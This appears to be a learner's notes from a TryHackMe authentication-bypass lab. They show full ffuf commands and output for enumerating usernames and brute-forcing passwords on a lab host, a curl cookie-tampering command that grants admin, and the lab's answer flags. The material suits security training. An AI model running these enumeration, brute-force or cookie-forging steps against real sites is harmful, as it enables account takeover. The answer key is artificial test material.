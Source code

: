 # Authentication Bypass

## Username Enumeration
- When trying to find authentication vulns it's useful to create a list of valid usernames
- Error messages are good resources for gathering information
    - Ex. If you try to sign up with a username that's already being used, the website might give an error message that says that the username is already being used. You can then fuzz that username
- The [ffuf](https://github.com/ffuf/ffuf) tool can be used to fuzz a website
    - Ex. To make a list of valid usernames on the website we can use `user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists"`
    - -w is the wordlist, -X is HTTP request, -d is the data being sent (place the FUZZ keyword on the parameter we want to fuzz), -H adds additional parameters, -u is the url we're testing, and -mr is the text on the page we are looking for to validate we've found a valid username
    - This can also be done with [burpsuite](../Events/Advent_Of_Cyber_2021/Day_4_Santa_Running_Behind/Santa_Running_Behind.md), but it's going to be much slower if we're not using the professional version
- Now fuzz the website and store the results in a file `user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists" > valid_usernames.txt`
>root@ip-10-10-141-55:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/signup -mr "username already exists" > valid_usernames.txt
>
>        /'___\  /'___\           /'___\       
>       /\ \__/ /\ \__/  __  __  /\ \__/       
>       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
>        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
>         \ \_\   \ \_\  \ \____/  \ \_\       
>          \/_/    \/_/   \/___/    \/_/       
>
>       v1.3.1
>________________________________________________
>
> :: Method           : POST
> :: URL              : http://10.10.205.170/customers/signup
> :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
> :: Header           : Content-Type: application/x-www-form-urlencoded
> :: Data             : username=FUZZ&email=x&password=x&cpassword=x
> :: Follow redirects : false
> :: Calibration      : false
> :: Timeout          : 10
> :: Threads          : 40
> :: Matcher          : Regexp: username already exists
>________________________________________________
>
>:: Progress: [10164/10164] :: Job [1/1] :: 1374 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
and the file contains
>root@ip-10-10-141-55:~# cat valid_usernames.txt 
>admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
>robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
>simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
>steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
## Brute Force
- Now that we know the usernames that are registered, we can launch a brute force attack to find the passwords
- This can also be done with fuff `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/login -fc 200`
    - Since we're using two different wordlists, one for the usernames and one for the passwords, we need to use two different arbitrary keywords. We chose W1 and W2
    - -fc checks for HTTP status code of 200, which means that the username and password match
>root@ip-10-10-141-55:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.205.170/customers/login -fc 200
>
>        /'___\  /'___\           /'___\       
>       /\ \__/ /\ \__/  __  __  /\ \__/       
>       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
>        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
>         \ \_\   \ \_\  \ \____/  \ \_\       
>          \/_/    \/_/   \/___/    \/_/       
>
>       v1.3.1
>________________________________________________
>
> :: Method           : POST
> :: URL              : http://10.10.205.170/customers/login
> :: Wordlist         : W1: valid_usernames.txt
> :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
> :: Header           : Content-Type: application/x-www-form-urlencoded
> :: Data             : username=W1&password=W2
> :: Follow redirects : false
> :: Calibration      : false
> :: Timeout          : 10
> :: Threads          : 40
> :: Matcher          : Response status: 200,204,301,302,307,401,403,405
> :: Filter           : Response status: 200
>________________________________________________
>
>[Status: 302, Size: 0, Words: 1, Lines: 1]
>    * W2: thunder
>    * W1: steve
>
>:: Progress: [400/400] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
## Logic Flaw
- Logic flaw - when the typical logical path of an application is either bypassed, circumvented, or manipulted by a hacker
- ![Logic flaw](Images/logicFlaw.png)
- Ex. This code uses `===` to check for an exact match on the string, including letter casing. This is a logic flaw because an unauthenticated user can use different letter casing to bypass the admin check (Ex. /adMin)
>if( url.substr(0,6) === '/admin') {
>    # Code to check user is an admin
>} else {
>    # View Page
>}
## Cookie Tampering
- Examing and editing cookies can have a few outcomes:
    - Unauthenticated access
    - Access to another user's account
    - Elevated privileges
### Plain Text
- The contents of some cookies can be plaintext
- Ex. If cookie contents were:
>Set-Cookie: logged_in=true; Max-Age=3600; Path=/
>Set-Cookie: admin=false; Max-Age=3600; Path=/
    - We could use `curl -H "Cookie: logged_in=true; admin=true" http://10.10.151.48/cookie-test` to give ourselves admin access
### Hashing
- Hashing is irreversible
- Some cookies are hashed, most common methods are md5, sha256, sha512, and sha1
- Can use hash cracker like hashcat or a database like [crackstation](https://crackstation.net/)
### Encoding
- Encoding is reversible
- Most ocmmon methods are base32, base64, hex
- Ex. `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
1. THM{COOKIE_TAMPERING}
2. 463729
3. THM{BASE64_ENCODING}
4. eyJpZCI6MSwiYWRtaW4iOnRydWV9
